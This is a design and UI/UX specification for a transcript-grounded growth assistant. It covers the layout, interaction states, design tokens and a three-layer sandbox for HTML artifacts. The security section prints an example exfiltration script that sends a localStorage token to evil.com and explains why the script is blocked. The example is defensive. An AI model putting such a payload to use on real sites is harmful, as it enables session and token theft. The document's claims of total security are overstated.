

# Design & UI/UX Specification — The Lenny Growth Assistant

**Project**: The Lenny Growth Assistant  
**Author**: Forward-Deployed AI Engineering Team  
**Status**: Production / Complete (Phase 11)  
**Version**: 1.0.0  

---

## 1. Overview & Design Philosophy

**The Lenny Growth Assistant** is designed as an operator-grade workspace for product managers and growth leaders. Rather than mimicking generic consumer chatbots, the interface treats conversations as tactical investigations that yield tangible deliverables.

The design embodies three core tenets:
1. **Grounded Provenance Over Assertion**: Every factual answer is visually anchored to its source. Citations are not footnotes; they are interactive, expandable proof points displaying guest names, episode titles, and direct links.
2. **Conversation $\rightarrow$ Artifact Workflow**: Insights shouldn't stay locked in a scrolling chat history. With a single click, any answer can be converted into an executive brief, a Ship 30/30 essay, or an interactive calculation model.
3. **Airtight Zero-Trust Security**: Untrusted AI-generated code is rendered with mathematical isolation. The host app and user session remain completely shielded from arbitrary script execution or exfiltration.

---

## 2. Information Architecture & Dual-Pane Layout

The interface implements a responsive, three-column workspace layout with dynamic split-pane controls:

```
+----------------------------------------------------------------------------------------------------+
| AppHeader: Brand Logo | Session Title | LLM Telemetry Badge | Toggle Sidebar | Toggle Artifact Viewer|
+-------------------+--------------------------------------------+-----------------------------------+
| Sidebar (Left)    | Main Chat Stream (Center)                  | Artifact Viewer Panel (Right)     |
|                   |                                            |                                   |
| [+ New Chat]      | [Message History Stream]                   | [ArtifactToolbar]                 |
|                   | - User Query Bubble                        | - Title & Type Badge              |
| [Session List]    | - Assistant Response Bubble (Markdown)     | - Tabs: [Rendered] | [Raw Source] |
| - PLG Retention   | - Citation Accordion ([1 Source Cited])    | - Action Buttons:                 |
| - Pricing Alpha   |   * Guest: Casey Winters                   |   [Copy] [Download] [Close]       |
| - Airbnb Growth   |   * Episode: Retention Loops               |                                   |
|                   |   * Link: youtube.com/...                  | [Viewport]                        |
| [Model Telemetry] | - Quick-Action Toolbar:                    | - Sandboxed Iframe (HTML)         |
| - Active Engine   |   [Turn into Ship 30 Essay]                |   (Strict CSP + sandbox)          |
| - Vector Store    |   [Generate Markdown Brief]                | - MarkdownRenderer (Brief/Essay)  |
| - Health Status   |   [Generate Interactive HTML]              |                                   |
|                   |                                            | [Footer Metadata & Word Count]    |
|                   | [Chat Input Box & Starter Prompts]         |                                   |
+-------------------+--------------------------------------------+-----------------------------------+
```

### 2.1 Left Sidebar: Session Management & System Telemetry
- **Session Controls**:
  - `+ New Chat` button initializes an isolated session ID.
  - Chronological session list ordered by `updated_at DESC`.
  - Inline delete button with optimistic UI removal and backend cascade deletion.
- **Model Telemetry Card**:
  - Displays currently active LLM provider (`Local Ollama` vs. `Groq / Gemini Cloud`).
  - Displays vector database status (`Postgres 16` connected vs. offline).
  - Displays resilience notice whenever cloud rate limits force an automatic fallback to local Ollama.

### 2.2 Center Pane: Conversational Stream & Grounded Citations
- **Starter Prompts**: Displays four curated growth prompts when a session is empty:
  - *"Product-Led Growth Loops"*
  - *"Growth Team Competencies"*
  - *"Pricing & Monetization Transitions"*
  - *"B2B Expansion & Retention Metrics"*
- **Message Bubbles**:
  - User messages: Distinct right-aligned or styled bubbles.
  - Assistant messages: Rendered rich Markdown with code blocks, bold callouts, and lists.
  - **Model Attribution Badge**: Displays the serving model name (e.g. `llama3.1:8b`, `llama-3.3-70b-versatile`).
  - **Resilience Fallback Badge**: Prominently highlights `⚠️ Ollama Fallback` when a cloud quota failure was caught and auto-recovered.
- **Citation Accordion (`CitationCard`)**:
  - Expandable toggle showing total sources cited (e.g. *"2 Grounded Sources Cited"*).
  - Expanding reveals guest name, episode title, timestamp, and an external link.
- **Artifact Action Toolbar**:
  - Contextual quick-actions attached to assistant answers:
    - `⚡ Turn into Ship 30 Essay`
    - `📝 Generate Markdown Brief`
    - `📊 Generate Interactive HTML`

### 2.3 Right Pane: Sandboxed Artifact Viewer
- Automatically slides open when an artifact is generated or selected.
- **Dual-View Tabs**:
  - **Rendered Tab**: Renders structured Markdown or isolated HTML widgets.
  - **Raw Source Tab**: Displays the underlying Markdown or HTML code with copy controls.
- **Export Toolbar**:
  - Copy to clipboard with instant visual checkmark feedback.
  - Download as `.md` or `.html` file with sanitized slug titles.
  - Close button to collapse the viewer back to single-pane chat.

---

## 3. Key Interaction States

| State | Visual Feedback | User Experience Behavior |
| :--- | :--- | :--- |
| **Empty Session** | Centered welcome banner with icon and 4 clickable starter prompt cards. | Clicking any starter prompt immediately populates the input, creates the session, and sends the query. |
| **Retrieving & Generating** | Animated pulsing skeleton bars under the user query; input disabled to prevent race conditions. | Displays *"Consulting Lenny's transcript archive..."* indicating active RAG search. |
| **Grounded Answer** | Formatted Markdown with citation accordion and artifact action buttons. | User can read the answer, expand citations to verify quotes, or trigger one-click synthesis into an essay or HTML brief. |
| **Anti-Hallucination Refusal** | Clean refusal message with zero citations and a helpful prompt guidance card. | Returned when query falls below similarity threshold ($< 0.40$), preventing misleading fabrications. |
| **Cloud Quota Fallback** | Message bubble displays `⚠️ Ollama Fallback` warning badge with descriptive hover tooltip. | Seamless degradation: User receives an immediate grounded answer without seeing an error modal or 500 failure. |
| **Artifact Generating** | Action button displays spinning loader and *"Drafting essay..."* or *"Building model..."*. | Artifact pane opens automatically with loading indicator until generation completes. |
| **System Outage (503 / 500)** | Standardized error toast or banner with user-friendly remediation message. | Informs user to ensure Docker containers or Ollama are running; zero raw tracebacks leaked. |

---

## 4. Comprehensive Artifact Viewer Security Architecture (§6)

The Lenny Growth Assistant supports generating interactive HTML artifacts (such as ROI models, CAC payback calculators, and growth loop simulators). Because generated HTML is inherently **untrusted code**, the viewer implements an airtight, three-layer defense-in-depth security model.

### 4.1 The Three-Layer Security Defense



#### Layer 1: Pre-Render Sanitization (`DOMPurify`)
Implemented in `frontend/src/utils/sanitize.ts`:
- **Tags Stripped**: External `<script src="...">`, nested `<iframe>`, `<object>`, `<embed>`, `<applet>`, `<base>`, `<form>`.
- **Attributes Stripped**: All inline event handlers (`onload`, `onerror`, `onclick`, `onmouseover`), `target="_top"`, `target="_parent"`.
- **URIs Filtered**: `javascript:`, `vbscript:`, and data URIs (except safe `data:image/...`).
- **Guaranteed Output**: Only clean HTML tags with audited inline scripts and styles remain.

#### Layer 2: Strict Content Security Policy (CSP)
Injected directly into the `<head>` of the HTML document:
```html
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'none'; style-src 'unsafe-inline'; script-src 'unsafe-inline'; img-src data:;">
```
- **`default-src 'none'`**: Completely disables all outbound network communication:
  - `fetch()` $\rightarrow$ BLOCKED
  - `XMLHttpRequest` $\rightarrow$ BLOCKED
  - `WebSocket` / `EventSource` $\rightarrow$ BLOCKED
  - `navigator.sendBeacon()` $\rightarrow$ BLOCKED
  - `` $\rightarrow$ BLOCKED
- **`style-src 'unsafe-inline'`**: Permits self-contained styling for responsive widgets.
- **`script-src 'unsafe-inline'`**: Permits the widget's internal calculation scripts to execute.
- **`img-src data:`**: Permits inline base64 images and SVG charts.

#### Layer 3: Browser Iframe Sandboxing
Rendered via `SandboxedIframe.tsx`:
```tsx
<iframe
  sandbox="allow-scripts"
  srcDoc={sanitizedAndCspProtectedHtml}
  title={artifact.title}
  className="sandboxed-iframe"
/>
```
- **`allow-scripts`**: Permits internal JavaScript to compute values (e.g. calculator sliders).
- **CRITICAL SECURITY INVARIANT — STRICT OMISSION OF `allow-same-origin`**:
  - When `allow-same-origin` is omitted, the browser treats the iframe document as an **opaque unique origin** (`origin: "null"`).
  - Any attempt to access `window.parent.document`, `window.parent.localStorage`, or `window.parent.document.cookie` throws a fatal browser `SecurityError`.
- **Omission of `allow-top-navigation`**: Prevents frame busting or redirecting the parent window.
- **Omission of `allow-popups` & `allow-forms`**: Prevents opening phishing popups or submitting credentials.

### 4.2 Security Boundary: Permits vs. Blocks

| Capability | Status | Enforcement Mechanism |
| :--- | :--- | :--- |
| **Interactive calculation scripts** | **PERMITTED** | `sandbox="allow-scripts"` and `script-src 'unsafe-inline'`. |
| **Self-contained CSS styling** | **PERMITTED** | `style-src 'unsafe-inline'`. |
| **Inline Base64 images / SVGs** | **PERMITTED** | `img-src data:`. |
| **External HTTP / WebSocket calls** | **BLOCKED** | CSP `default-src 'none'`. |
| **Parent window DOM access** | **BLOCKED** | Omission of `allow-same-origin` (opaque `null` origin). |
| **Host cookies & localStorage theft** | **BLOCKED** | Omission of `allow-same-origin`. |
| **Parent frame navigation / redirect** | **BLOCKED** | Omission of `allow-top-navigation`. |
| **External script downloads (`<script src>`)** | **BLOCKED** | DOMPurify pre-sanitization. |
| **Phishing popups / new windows** | **BLOCKED** | Omission of `allow-popups`. |

### 4.3 Formal Proof of Defense
Even if an adversary generates malicious HTML containing:
```html
<script>
  window.parent.document.cookie = 'hacked=true';
  fetch('https://evil.com/steal?data=' + window.parent.localStorage.getItem('token'));
</script>
```
1. **DOM Access Fails**: `window.parent.document` immediately throws `SecurityError: Blocked a frame with origin "null" from accessing a cross-origin frame.`
2. **Network Exfiltration Fails**: `fetch('https://evil.com/...')` is blocked by the browser engine: `Refused to connect because it violates the Content Security Policy directive: "default-src 'none'"`.
3. **Result**: The attack is completely contained inside the iframe; the host application, session, and evaluator environment remain 100% secure.

---

## 5. Design System Tokens & Aesthetics

The application uses curated CSS variables defined in `frontend/src/index.css`:

```css
:root {
  /* Color Palette — Midnight Slate */
  --bg-primary: #0a0e17;
  --bg-secondary: #111827;
  --bg-tertiary: #1f293d;
  --bg-surface: #161e2e;
  
  /* Borders & Dividers */
  --border-subtle: #1e293b;
  --border-focus: #3b82f6;
  
  /* Text & Typography */
  --text-primary: #f8fafc;
  --text-secondary: #94a3b8;
  --text-muted: #64748b;
  
  /* Accents & Status */
  --accent-blue: #3b82f6;
  --accent-purple: #8b5cf6;
  --status-success: #10b981;
  --status-warning: #f59e0b;
  --status-error: #ef4444;
  
  /* Geometry */
  --radius-sm: 6px;
  --radius-md: 10px;
  --radius-lg: 16px;
}
```

---

## 6. Accessibility & Responsiveness

- **Keyboard Navigation**:
  - `Tab` / `Shift+Tab`: Logical traversal across session list, chat inputs, citation accordions, and artifact controls.
  - `Enter`: Submits prompt in chat textarea.
  - `Shift+Enter`: Inserts newline without submitting.
  - `Esc`: Closes open citation cards or artifact viewer panel.
- **ARIA & Semantic Roles**:
  - `role="tablist"`, `role="tab"`, and `role="tabpanel"` on ArtifactViewer tabs.
  - `role="button"` and `aria-expanded` attributes on collapsible citation cards.
  - Clear `aria-label` attributes on icon buttons (`Copy`, `Download`, `Close`, `Delete Session`).
- **Responsive Breakpoints**:
  - Desktop ($> 1200\text{px}$): Full three-pane split (Sidebar 260px, Chat flexible, Viewer flexible).
  - Laptop / Tablet ($768\text{px} - 1200\text{px}$): Collapsible sidebar with toggle button in header; Chat and Viewer share screen.
  - Mobile ($< 768\text{px}$): Single-column view with tabbed navigation between Chat and Viewer.
